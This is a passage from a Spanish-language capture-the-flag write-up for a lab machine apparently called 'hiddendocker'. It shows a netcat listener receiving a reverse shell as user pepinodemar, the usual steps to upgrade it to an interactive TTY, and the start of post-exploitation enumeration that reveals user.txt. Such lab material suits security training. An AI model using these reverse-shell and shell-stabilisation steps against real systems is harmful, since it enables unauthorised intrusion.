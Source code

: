 Una vez que la ejecutes en la página web, observa la **netcat**:
```bash
nc -nvlp 443
listening on [any] 443 ...
connect to [Tu_IP] from (UNKNOWN) [192.168.10.130] 49248
bash: no se puede establecer el grupo de proceso de terminal (334): Función ioctl no apropiada para el dispositivo
bash: no hay control de trabajos en este shell
pepinodemar@hiddendocker:~$ whoami
whoami
pepinodemar
```
Estamos dentro y nos encontramos en el directorio del **usuario pepinodemar**.

Obtengamos una sesión interactiva:
```bash
# Paso 1:
script /dev/null -c bash

# Paso 2:
CTRL + Z

# Paso 3:
stty raw -echo; fg

# Paso 4:
reset -> xterm

# Paso 5:
export TERM=xterm
export SHELL=bash
stty rows 51 columns 189
```
Continuemos.


<br>
<br>
<hr>
<div style="position: relative;">
  <h1 id="Post" style="text-align:center;">Post Explotación</h1>
</div>
<br>


<h2 id="linEnum">Enumeración de la Máquina</h2>

Veamos qué archivos tiene este usuario:
```bash
pepinodemar@hiddendocker:~$ ls -la
total 32
drwx------ 4 pepinodemar pepinodemar 4096 may 23  2024 .
drwxr-xr-x 4 root        root        4096 may 22  2024 ..
lrwxrwxrwx 1 root        root           9 may 23  2024 .bash_history -> /dev/null
-rw-r--r-- 1 pepinodemar pepinodemar  220 may 22  2024 .bash_logout
-rw-r--r-- 1 pepinodemar pepinodemar 3526 may 22  2024 .bashrc
drwxr-xr-x 3 pepinodemar pepinodemar 4096 may 23  2024 Desktop
drwxr-xr-x 3 pepinodemar pepinodemar 4096 may 22  2024 .local
-rw-r--r-- 1 pepinodemar pepinodemar  807 may 22  2024 .profile
-rw-r--r-- 1 pepinodemar pepinodemar   24 may 22  2024 user.txt
```
Vemos la flag del usuario.
